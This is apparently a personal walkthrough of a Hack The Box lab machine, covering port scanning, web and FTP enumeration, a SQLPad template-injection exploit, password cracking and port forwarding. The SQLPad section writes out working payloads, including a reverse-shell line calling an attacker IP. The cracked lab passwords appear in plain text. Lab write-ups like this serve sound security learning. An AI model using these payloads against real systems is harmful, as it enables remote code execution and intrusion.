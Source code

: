 Aight, let's try this one...

### Starting with `nmap`
- Results give the following results:
```a
Starting Nmap 7.95 ( https://nmap.org ) at 2024-09-14 20:04 EDT
Stats: 0:00:36 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 66.67% done; ETC: 20:05 (0:00:12 remaining)
Nmap scan report for 10.10.11.32
Host is up (0.024s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port21-TCP:V=7.95%I=7%D=9/14%Time=66E624A5%P=x86_64-pc-linux-gnu%r(Gene
SF:ricLines,A0,"220\x20ProFTPD\x20Server\x20\(sightless\.htb\x20FTP\x20Ser
SF:ver\)\x20\[::ffff:10\.10\.11\.32\]\r\n500\x20Invalid\x20command:\x20try
SF:\x20being\x20more\x20creative\r\n500\x20Invalid\x20command:\x20try\x20b
SF:eing\x20more\x20creative\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.75 seconds

```
- So we have the following services:
	- `ftp`
		- Unknown version
	- `ssh`
		- OpenSSH 8.9p1 (clean)
	- `http`
		- Nginx 1.18.0 (looks clean as well)
- So far, the `ftp` server is setting off alarm bells. I might need to enumerate that futher.

### The website
- So this is a fancy website. I see lots of fancy stuff going on up in here.
- It's a single page site, so I don't think I'll be doing any sort of injection.
- I don't see anywhere that I can actually put stuff to be malicious. I'll try to enumerate the site, but I don't think I'll get much of anything.
	- `ffuf -c -w ~/Nerd/wordlists/SecLists/Discovery/Web-Content/raft-medium-directories.txt -u "http://sightless.htb/" -t 200`
- I see absolutely nothing interesting on this site. Tried to get some directories, got back absolutely zilch. Unfortunate.
- Wait wait wait! The SQLPad page. This could have something interesting! Sandbox escalation? 
- I see from this page that there is an `admin` user as well as a user named `john`.
	- I shall try to login to the `ftp` server with these usernames...

### Looking closer at `ftp`
- I know for a fact that the `ssh` server can't be vulnerable (unless I can brute force, but I doubt it).
- If I can get a better look at the ftp version I might be able to do something for real.
- Potential upload of some `php` exploit to the site? Seems too easy, but possible.
- Let's try to grab a banner with `netcat`.
	- `nc 10.10.11.32 21`
	- No results.
- Let's see if `metasploit` has a scanner.
	- We can use the version scanner available to us, so that's neat.
	- Didn't get a numeric version, but at least we now know that we're working with `ProFTPD`.
	- I see some potential exploits I could attempt. I don't see why not. Later, though.
- Let's just try to connect to the thing. What's the worst that could happen?
	- `ftp -p 10.10.11.32`
	- So it's pretty slow, but we can try to get in.
	- Anonymous login was a bust.
	- Same with credentials seen in the SQLPad thing.
- Trying the couple things on `metasploit`...
	- Nothing.
- Alright, it seems like brute force might be a good option for this. The thingy wasn't even asking for a password, so just username might be all that we need.

### SQLPad
- So apparently this is an actual separate service that could have vulnerabilities! (found from a hint)
- A bit of recon within the page shows that this is version 6.10.0. Let's see what it is vulnerable to...
	- I smell RCE... CVE-2022-0944 effects versions < 6.10.1!
	- There does appear to be another exploit, CVE-2022-0944, which is "template injection". Seems less promising, but whatever.
- CVE-2022-0944
	- Let's run this bad boy!
	- And it doesn't work. The API call that it's trying to exploit doesn't seem to be anywhere. Unfortunate.
	- I'll try the other one.
- CVE-2022-0944
	- I would appear to need a username and password for this. I don't have access to credentials, so that might be a little challenging.
	- Upon further research, the above is only if you are required to have credentials to run a template. I am allowed to run a template without them.
	- Let's go ahead and get this done. Might as well do it manually, too.
		- Payload format: `{{ process.mainModule.require('child_process').exec('id>/tmp/pwn') }}`
		- Pretty epic, let's just figure out a better thing to execute and then we're gonna be getting down and dirty with it.
	- So we need to set up a MySQL environment and provide our payload in the Database form field. Easy.
	- So this isn't too difficult. Let's start by getting our payload ready to go: `{{ process.mainModule.require('child_process').exec('bash -i >& /dev/tcp/10.10.14.164/4444 0>&1') }}`
	- That's nice and easy. Let's try it!
	- Several hours later. I know I'm doing the right thing, but I don't understand why it isn't working. Sucks to suck, I guess.
	- Alright, I figured it out. I had to try a different proof of concept approach where you inject from the name field rather than the database field. Ridiculous and horrible.
- So we're "in"!

### FIRST EVER FOOTHOLD!
- Very nice, I understand how I got here. I think I would have gotten pretty far with it as well if I had just checked that one extra link.
- So we're pretty good for now. There's a bit of a spoiler for the next steps (I know I'm in a docker container), but that's fine. I'm going to treat myself to an ice cream now.
- So here's what I know about the machine I'm in:
	- I'm root
	- There's a Michael user
	- It's running Debian Buster
	- I can see the shadow file!
- Alright, let's see if we can crack some hashes...
	- We can!
	- `unshadow passwdFile shadowFile > unshadowed`
	- `john --wordlist=/path/to/rockyou.txt unshadowed`
	- So here's our passwords: 
	```a
	root: blindside
	michael: insaneclownposse
	```
	- Pretty legit. We can try to use these for more things later. 
- Something interesting, I see a directory called `docker-entrypoint` in the root directory. I'm not actually in the machine. I'm in a docker container on the machine. Heck.
- Well, as it would turn out people like to reuse their credentials. Michael on the docker container is also an ssh user on the host machine. He even uses the same weak password. Hacker.

### Priv-esc
- So now it's just a matter of finding the user-flag and then escalating privs. 
- Unfortunately, the root user does not have a recycled password. That would have been funny, though.
- Interestingly enough, as Michael I don't have access to John's stuff. Weird. 
- Also would have been funny, but Michael is not a sudoer. I would imagine that John is.
- We're running Ubuntu Jammy, I don't think there's anything inherently wrong with that.
- I can't output contents of the shadow file. That's normal.
- I think that I might be able to get a file written to the webserver, then run it. If I can write and have it execute as root then I'm golden.
- I don't have write permissions in `/var/www`. Good idea, though.
- Run a quick `uname -a`, and... what do we have here?
	- Looks like we have something of a priv esc exploit on our hands. Why, running kernel version 5.15.0? How scandalous! It looks as if you're vulnerable to a dirty pipe!
	- Let's load our exploit onto the machine and run it!
	- Didn't work, apparently I'm chasing my tail here.
- So I consulted the hint resource, and it looks like we should investigate the newfound port 8080.

# Everything past this point fully uses a guide. I am not well-learned enough for this. I did a lot on my own, though!

### Froxlor 
- So we have another resource running...
- We're going to forward this service with a tool called chisel.
	- Install on host machine
	- Use `wget` to grab the binary from the GitHub on the box.
	- Host: `chisel server -p 9999 --reverse`
	- Box: `chisel client [MY MACHINE] R:[PORT]:127.0.0.1:[PORT]`
- That was fun and definitely not really stupid to get working.
- The main point is that I have access to the application on my host machine now.
- So I see a login page. I tried out Michael's credentials, but I don't think that horse can get beat any more to death.
- So we either need to figure out valid creds or just exploit as it is right now. Cool.
- I see an RCE exploit, so that might be cool.
- Getting in requires a cool exploit that I need to explain.
- Never got system.
